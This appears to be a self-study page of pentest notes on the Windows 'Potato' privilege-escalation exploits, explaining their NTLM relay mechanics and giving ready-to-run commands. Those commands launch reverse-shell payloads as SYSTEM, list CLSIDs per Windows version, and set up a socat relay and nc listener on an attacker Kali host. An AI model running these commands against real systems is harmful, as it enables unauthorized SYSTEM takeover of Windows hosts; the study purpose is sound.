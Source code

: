 # Potatoes
```default
                         ,d                 ,d                
                         88                 88                
8b,dPPYba,   ,adPPYba, MM88MMM ,adPPYYba, MM88MMM ,adPPYba,   
88P'    "8a a8"     "8a  88    ""     `Y8   88   a8"     "8a  
88       d8 8b       d8  88    ,adPPPPP88   88   8b       d8  
88b,   ,a8" "8a,   ,a8"  88,   88,    ,88   88,  "8a,   ,a8"  
88`YbbdP"'   `"YbbdP"'   "Y888 `"8bbdP"Y8   "Y888 `"YbbdP"'   
88                                                            
88
```

The potato exploits are a series of **privilege escalation** exploits. A wide variety of Windows versions are vulnerable.

**JuicyPotato** tends to work most often, so if the conditions fit, try that one first. On newer Win10 versions try **Rogue Potato** (this was written in Dec 2020).

Here is a list of the Potato Exploits, their release dates and the authors I could identify:

* **Hot Potato** - January 2016 - Stephen Breen
* **Rotten Potato** - September 2016 - Stephen Breen, Chris Mallz
* **Rotten Potato NG** (C++ rewrite) - December 2017 - Same authors?
* **Juicy Potato** - August 2018 - Andrea Pierini, Giuseppe Trotta
* **Rogue Potato** - May 2020 - Antonio Cocomazzi

I am not really an expert on this topic, so all the explanations below should be taken with caution. They are just my own attempts at figuring out how these work. Please tell me if something is wrong.


## Hot Potato

* Source: https://github.com/foxglovesec/Potato
* Reference: https://foxglovesecurity.com/2016/01/16/hot-potato/

**Applicable:** Windows 7, 8, early versions of Windows 10 and server counterparts Server 2008, Server 2012.

**Requirements:** See Explanation section.

```default
.\potato.exe -ip <local_windows_ip> -cmd "C:\Privesc\reverseshell.exe" -enable_httpserver true -enable_defender true -enable_spoof true -enable_exhaust true
```

Use the IP of the machine you are attacking (the one this runs on).

Expected result is a SYSTEM shell.

It is less stable than the other potatoes. Also the UDP spam might cause some problems. I have successfully tested this exploit, but only in my lab.


### Explanation

This is a NBNS (NetBIOS Name Service) UDP flooding attack with NTLM relay.

Many Windows applications will look for a network proxy configuration on "http://wpad/wpad.dat". When the machine asks the network for the address of "WPAD", or "WPAD.DOMAIN.TLD" via NBNS, then the local potato binary spams UDP answers quicker than any other host in the network could, telling the machine that localhost (and specifically our potato server) is the address of the WPAD proxy. Now the potato binary can set up an HTTP proxy server and relay NTLM authentication attempts sent by the machine. With the captured NTLM hash we can then establish a shell via the local SMB service.

DNS and the local hosts file take precedent over NBNS, so DNS needs to be disabled.

If your network has a DNS entry for "WPAD" already, then you can try "-disable_exhaust false". This should cause the DNS lookup to fail and it should fallback to NBNS. This seems to work pretty reliably on Windows 7.


## Juicy Potato

* Source: https://github.com/ohpe/juicy-potato
* Reference (Rotten Potato): https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/

**Applicable**: Windows 7, 8, early versions of Windows 10 and server counterparts Server 2008, Server 2012. Requires a service account with token impersonation privileges.

**Requirements:** You have a shell as a service account with **AT LEAST ONE** of the following privileges:

* SeAssignPrimaryTokenPrivilege
* SeImpersonatePrivilege

Check with `whoami /priv`.

These tend to be set to "enabled" for most Service accounts, which makes this a common attack vector.

```default
.\JuicyPotato.exe -l 1337 -p C:\PrivEsc\reverseshell.exe -t * -c {5B3E6773-3A99-4A3D-8096-7765DD11785C}
```

I think the user of the shell you receive depends on the CLSID you used, but in general you should receive a SYSTEM shell.


### Explanation

**Juicy Potato** is an extended version of **Rotten Potato** (more specifically RP NG), but unlike RP NG it works on a wider variety of windows versions. The underlying exploitation method is the same for both Rotten and Juicy Potato, so I am only listing the newer Juicy version here.

Similar to the Hot Potato exploit, this exploit is an NTLM relay attack. It tricks the "NT AUTHORITY\SYSTEM" account into authenticating via NTLM to a TCP endpoint we control (compared to the fake proxy used in Hot Potato).

### CLSID's

These will differ depending on the OS you are exploiting.

Known CLSID's as list:

* http://ohpe.it/juicy-potato/CLSID/

How do you find CLSIDs if none from the list work?

Execute the GetCLSID.ps1 powershell script on the target.

http://ohpe.it/juicy-potato/CLSID/GetCLSID.ps1


#### Example CLSIDs
```default
Win7 Professional SP1 - {F087771F-D74F-4C1A-BB8A-E16ACA9124EA}
Win7 Enterprise - {03ca98d6-ff5d-49b8-abc6-03dd84127020}
Win8.1 Enterprise - {eff7f153-1c97-417a-b633-fede6683a939}
Win10 Enterprise - {F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4}
Win10 Pro - {5B3E6773-3A99-4A3D-8096-7765DD11785C}
WinServer2008 R2 Enterprise - {9B1F122C-2982-4e91-AA8B-E071D54F2A4D}
WinServer2012 Datacenter - {e60687f7-01a1-40aa-86ac-db1cbf673334}
WinServer2016 Standard - {F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4}
```

## Rogue Potato

* Source: https://github.com/antonioCoco/RoguePotato

**Applicable**: Seems to only work with x64? So far successfully tested on Win10 x64. 

Unlike Hot and Rotten/Juicy, this exploit should still work in newer Windows 10 installations.

**Requirements:** Like Rotten/Juicy Potato this exploit requires a service account with **AT LEAST ONE** of the following privileges: 

* SeAssignPrimaryTokenPrivilege
* SeImpersonatePrivilege


### HowTo

Create a reverse shell binary with msvenom and transfer it together with the roguepotato exploit to the target.

On Kali set up a relay:
```bash
sudo socat tcp-listen:135,reuseaddr,fork tcp:<target_ip>:9999
```

Also set up a listener for the reverse shell obviously (e.g. `sudo nc -vlnp 53`).

On the Windows target:

```default
.\RoguePotato.exe -r <your_own_kali_machine_ip> -l 9999 -e "C:\PrivEsc\reverseshell.exe"
```

You should receive a SYSTEM shell.
